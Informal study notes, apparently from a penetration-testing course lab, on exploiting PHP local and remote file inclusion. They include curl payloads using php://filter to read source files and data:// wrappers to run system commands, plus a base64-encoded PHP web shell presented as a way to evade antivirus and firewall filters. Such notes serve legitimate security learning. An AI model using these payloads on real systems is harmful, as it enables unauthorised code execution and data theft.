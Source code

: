 
# PHP Wrappers

php://filter wrapper to display contents of files with or without encoding 

we can display .php files instead of exeing them with php://filter as well

with command like:
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
could be same as without php://filter

```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
using base64 encode to view admin.php content so that the LFI vulnerability doesn't just exe the code instead of showing it

decoding: echo "<content>" | base64 -d

```
data://for code execution, for plaintext or base64-encoding
```
alternative to when poisoning of local file with php fails


```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
This runs `ls`

Web apps and firewalls filter for strings like windows AV deleteing this file

```
we can encode with base 64:
```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64

and run with:
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

this gets around AV by hiding the php cmd shell comman


# Remote File Inclusion

not as common as  LFI, for php server allow_url_include needs to bee on different server may vary

data:// wrapper also needs allow_url_include

include friles from a remote system over HTTP or SMB

kali has a bunch of php payloads at /usr/share/webshells/php

to use the webshell we need to create a reverse reverse shell
